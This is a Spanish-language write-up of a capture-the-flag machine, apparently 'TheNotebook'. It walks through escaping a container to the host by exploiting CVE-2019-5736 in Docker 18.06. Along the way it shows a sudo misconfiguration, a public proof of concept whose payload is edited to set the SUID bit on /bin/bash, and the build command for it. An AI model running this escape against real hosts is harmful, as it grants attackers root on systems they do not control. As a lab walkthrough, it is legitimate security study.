 Noah puede correr docker como root para iniciar un conjunto específico de contenedores:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Se puede ver `/usr/bin/docker exec -it webapp-dev01` y pone un `*` al final, podemos ejecutar de todo sobre este docker.

### Identificación de vulnerabilidad Docker

Veamos la versión de docker en ejecución:

```bash
docker -v
Docker version 18.06.0-ce, build 0ffa825
```

Esta versión es vulnerable a **CVE-2019-5736**.

Lanzaremos `exec -it` en docker que es para ejecutar un comando de forma interactiva:

```bash
sudo /usr/bin/docker exec -it webapp-dev01 whoami
```

Somos root dentro del docker.

### Explotación de CVE-2019-5736

Buscamos información sobre el CVE: https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go

Revisamos el código y en la sección `var payload`, después de `bin bash` y salto de línea, agregamos nuestro código:

```bash
chmod u+s /bin/bash
```

El exploit debería quedar de esta forma:

```go
func main() {
    // This is the line of shell commands that will execute on the host
    var payload = "#!/bin/bash \n chmod u+s /bin/bash"
```

Esta escalada es conocida como escalada de privilegios con binario SUID:
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

Teniendo los comandos modificados, lo compilamos:

```bash
go build -ldflags "-s -w" main.go
```
